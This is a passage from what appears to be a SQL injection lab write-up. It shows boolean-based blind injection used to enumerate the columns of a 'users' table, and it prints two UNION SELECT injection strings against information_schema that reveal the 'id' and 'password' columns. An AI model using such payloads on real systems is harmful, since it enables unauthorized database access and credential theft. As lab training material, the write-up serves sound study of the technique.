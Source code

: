 ![](Screenshots/boolean_based_identified_users_table.png)

I can expand on this further to identify the colum names of that `users` table by entering the query:

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

Cycling through the letters reveals the column `id` however as we need to locate multiple column names we need to add the columns into our query to ensure we aren't resolving them.  For example, I will not add `and COLUMN_NAME != 'id';` to the end of the SQL statement to look for alternate column names.  The query below is entered to locate the 2nd column and so on.

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`

Doing this reveals the column `password`
